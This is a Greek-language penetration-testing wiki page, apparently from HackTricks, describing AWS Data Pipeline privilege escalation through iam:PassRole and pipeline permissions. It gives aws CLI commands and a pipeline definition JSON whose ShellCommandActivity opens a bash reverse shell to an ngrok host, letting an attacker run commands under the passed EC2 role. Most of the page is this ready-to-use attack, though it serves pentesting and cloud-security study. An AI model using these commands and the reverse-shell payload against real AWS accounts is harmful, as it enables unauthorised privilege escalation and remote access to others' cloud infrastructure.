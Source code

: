 # AWS - Datapipeline Privesc

{{#include ../../../banners/hacktricks-training.md}}

## datapipeline

Για περισσότερες πληροφορίες σχετικά με το datapipeline, ελέγξτε:

{{#ref}}
../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md
{{#endref}}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Οι χρήστες με αυτές τις **άδειες μπορούν να κλιμακώσουν τα δικαιώματα τους δημιουργώντας ένα Data Pipeline** για να εκτελούν αυθαίρετες εντολές χρησιμοποιώντας τις **άδειες του ανατεθέντος ρόλου:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Μετά τη δημιουργία του pipeline, ο επιτιθέμενος ενημερώνει τον ορισμό του για να καθορίσει συγκεκριμένες ενέργειες ή δημιουργίες πόρων:
```json
{
"objects": [
{
"id": "CreateDirectory",
"type": "ShellCommandActivity",
"command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn": { "ref": "instance" }
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id": "instance",
"name": "instance",
"type": "Ec2Resource",
"actionOnTaskFailure": "terminate",
"actionOnResourceFailure": "retryAll",
"maximumRetries": "1",
"instanceType": "t2.micro",
"securityGroups": ["default"],
"role": "assumable_datapipeline",
"resourceRole": "assumable_ec2_profile_instance"
}
]
}
```
> [!NOTE]
> Σημειώστε ότι ο **ρόλος** στη **γραμμή 14, 15 και 27** πρέπει να είναι ρόλος **που μπορεί να αναληφθεί από το datapipeline.amazonaws.com** και ο ρόλος στη **γραμμή 28** πρέπει να είναι **ρόλος που μπορεί να αναληφθεί από το ec2.amazonaws.com με ένα προφίλ EC2 instance**.
>
> Επιπλέον, το EC2 instance θα έχει πρόσβαση μόνο στον ρόλο που μπορεί να αναληφθεί από το EC2 instance (έτσι μπορείτε να κλέψετε μόνο αυτόν).
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
Το **αρχείο ορισμού pipeline, που έχει κατασκευαστεί από τον επιτιθέμενο, περιλαμβάνει οδηγίες για την εκτέλεση εντολών** ή τη δημιουργία πόρων μέσω του AWS API, εκμεταλλευόμενο τα δικαιώματα ρόλου του Data Pipeline για να αποκτήσει πιθανώς επιπλέον προνόμια.

**Πιθανές Επιπτώσεις:** Άμεσο privesc στον ρόλο υπηρεσίας ec2 που έχει καθοριστεί.

## Αναφορές

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}
